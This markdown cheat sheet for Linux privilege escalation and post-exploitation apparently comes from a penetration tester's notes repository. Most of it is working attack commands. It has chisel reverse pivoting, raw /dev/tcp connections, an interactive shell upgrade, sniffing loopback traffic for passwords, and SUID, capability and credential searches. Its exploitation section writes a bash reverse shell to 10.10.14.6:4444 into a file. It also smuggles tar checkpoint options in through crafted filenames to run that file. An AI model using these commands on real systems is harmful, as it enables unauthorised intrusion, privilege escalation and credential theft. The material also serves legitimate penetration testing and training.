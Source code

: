 - always check the `$PATH` value!
- some [check list](https://github.com/netbiosX/Checklists/blob/master/Linux-Privilege-Escalation.md)
- Siren's [notes](https://sirensecurity.io/blog/linux-privilege-escalation-resources/)
- restricted shell bypass [hacktricks](https://www.hackingarticles.in/multiple-methods-to-bypass-restricted-shell/) , [exploit-db](https://www.exploit-db.com/docs/english/44592-linux-restricted-shell-bypass-guide.pdf)
```bash
## General notes
# List systemd timers
systemctl list-timers
# port binding using ssh | localPort:socket:remotePort
ssh -L 4444:127.0.0.1:8080 soraka@172.17.0.2
# -- pivoting --
chisel server -p 3477 --socks5 --reverse
chisel client 10.10.10.10:3477 R:5000:socks
# file transfer using /dev/tcp
exec 3<>/dev/tcp/www.google.com/80
echo -e "GET / HTTP/1.1\r\nhost: http://www.google.com\r\nConnection: close\r\n\r\n" >&3
cat <&3
## 
exec 3<>/dev/tcp/$host/4444
cat <&3

```
##### upgrade shell
```bash
python3 -c "import pty; pty.spawn('/bin/bash')" || python -c "import pty; pty.spawn('/bin/bash')" || script -qc /bin/bash /dev/null
# Ctrl+Z
stty raw -echo;fg ; reset
stty columns 200 rows 200

```
##### exports
```bash

export TERM=linux
export TERM=xterm-256color
stty columns 156 rows 40
alias l='ls -lav --ignore=.?*'
alias la='ls -lav --color=auto'
alias ll='ls -lav --ignore=..'
alias ls='ls --color=auto'
alias ll='ls -lsaht --color=auto'
cd(){ pwd; builtin cd "$@"; pwd; ls -F; }
shopt -s autocd
function cd(){
    builtin cd "$@" && ls
}
chpwd() ls
chr() {
  printf \\$(printf '%03o' $1)
}

ord() {
  printf '%d' "'$1"
}



export PATH="/usr/local/sbin:/usr/local/bin:/usr/bin:/bin:$PATH"


```
- Tunneling/Port forwarding
```sh
# redirect all in (:2345) out to (:5432)
socat -ddd TCP-LISTEN:2345,fork TCP:10.4.202.215:5432


```
###### container enumerate
```bash
grep 'docker\|lxc' /proc/1/cgroup
mount  # show filesystem mount
df   # filesystem usage
```
##### manual enumeration
```bash
# os/version
cat /etc/issue
cat /etc/os-release

# network socket
ss -lntp # -n don't resolve service name
ss -ltp
ss -anp
cat /etc/iptables/rules.v4
routel
# grep recursive 
grep -i -R password .
# find for files/folders owned by a user
find / -user soraka 2>/dev/null
# read secondary permissions
lsattr
# find suid/guid
find / -perm -4000 -type f ! -path "/dev/*" 2>/dev/null
find / -perm -2000 -type f ! -path "/dev/*" 2>/dev/null
find / -user root -perm -4000 -exec ls -la {} \; 2> /dev/null
find / -perm /6000 2>/dev/null
# get caps
getcap -r / 2>/dev/null | head -n 50 
# others
lsblk
lsmod
/sbin/modinfo libata
# always monitor network in pentest
sudo tcpdump -i lo -A | grep "pass"
# cronjobs
grep "CRON" /var/log/syslog
# check AppArmor
aa-status
```
- uniqe exploitations
```bash
# tar wildcard
echo "bash -i >& /dev/tcp/10.10.14.6/4444 0>&1" > shell.sh
echo "" > "--checkpoint-action=exec=sh shell.sh"
echo "" > "--checkpoint=1"
```
ruby [priv esc](https://ihsansencan.github.io/privilege-escalation/linux/binaries/ruby.html)
##### kernels archives:
- [alpine](https://dl-cdn.alpinelinux.org/alpine/) linux archive
- [voidlinux](https://repo-default.voidlinux.org/live/) archive
- [nixos](https://releases.nixos.org/)


folders to check
```bash
/tmp/
/dev/shm/
/home/
/opt/
/etc/
/var/mail/
/var/www/
/


```
files to check
```bash
/etc/fstab
```
